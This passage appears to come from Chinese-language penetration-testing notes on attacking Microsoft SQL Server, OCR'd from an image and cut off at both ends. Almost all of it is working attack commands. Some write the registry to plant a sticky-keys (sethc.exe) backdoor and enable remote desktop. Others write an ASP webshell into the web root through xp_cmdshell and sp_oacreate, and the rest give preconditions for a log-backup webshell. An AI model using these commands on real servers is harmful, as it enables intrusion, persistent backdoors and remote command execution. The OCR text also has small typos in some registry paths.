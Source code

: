  #开启xp_regwrite
  exec sp_configure 'show advanced options',1 RECONFIGURE
  exec sp_configure 'xp_regwrite',1 RECONFIGURE
  
  #利用regwrite修改注册表进行劫持
  exec master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Image File Executio Options/sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:/windows/system32/cmd.exe'
  
  #利用regwrite开启3389端口
  exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM/CurrentControlSet/Control/Terminal Server','fDenyTSConnections','REG_DWORD',0;
  exec master..xp_cmdshell "REG ADD 'HKEY_LOCAL_MACHINE','SYSTEM/CurrentControlSet/Control/Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0"
  
  #利用xp_regread对注册表进行读取
  -读取注册查看是否修改成功
  exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Image File Execution Options/sethc.exe','Debugger'
  
  #通过扩展存储过程拿shell
  - 前提
  - 数据库是db_owner权限
  - 涉及到的存储扩展过程:xp_cmdshell,xp_dirtree,xp_subdirs,xp_regread,xp_ntsec_enumdomains(查看domain信息)
  ```

------

#### 小结

- 条件:已知`web路径`,`sa或dba权限`

- 利用本地存储过程写shell

- xp_cmdshell

- ```sql
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp';
  ```

- sp_oacreate

- ```sql
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:/inetpub/wwwroot/shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  ```

- 本地存储过程CLR:直接利用sharpsqltools执行命令写shell进行利用

- `log备份`写shell

- ```sql
  #优点
  - 重复性好,多次备份成功率高
  - 相对于差异备份而言,shell的体积较小
  
  #利用条件
  - DBO权限,默认SA也可
  - 知道绝对路径,并且可写
  - 站库不分离,数据库跟网站在同一台服务器
  - 数据库必须被备份过一次
  
  use test;	//选中数据库
  alter database test set recovery full;	//设置恢复模式
  ```